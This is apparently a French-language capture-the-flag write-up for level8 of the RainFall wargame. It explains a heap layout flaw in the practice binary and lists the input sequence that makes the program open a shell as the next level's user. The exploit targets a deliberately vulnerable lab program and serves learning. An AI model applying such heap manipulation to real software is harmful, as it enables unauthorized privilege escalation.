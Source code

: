 # Solution

## Explication du code

On peu voir que si la 8eme case memoire apres le debut de auth serait initialiser un shell s'ouvrirait en donnant comment entrée "login"
a notre programe.

On peu apercevoir que globalService et globalAuth sont malloc a la suite sans jamais etre free si l'on apel pas reset.
On peu tester si lors de l'allocation de memoire les adresse se suive :
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
auth 
0x804a018, (nil) 
service
0x804a018, 0x804a028 
service
0x804a018, 0x804a038
```
On remarque que oui cela ce suit avec un decalage de 16octet avec le dernier appel de service ou auth,
donc il suffit de cree un decalage de au moin 32 octet avec service apres un appel de auth, puis utiliser login :
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
```

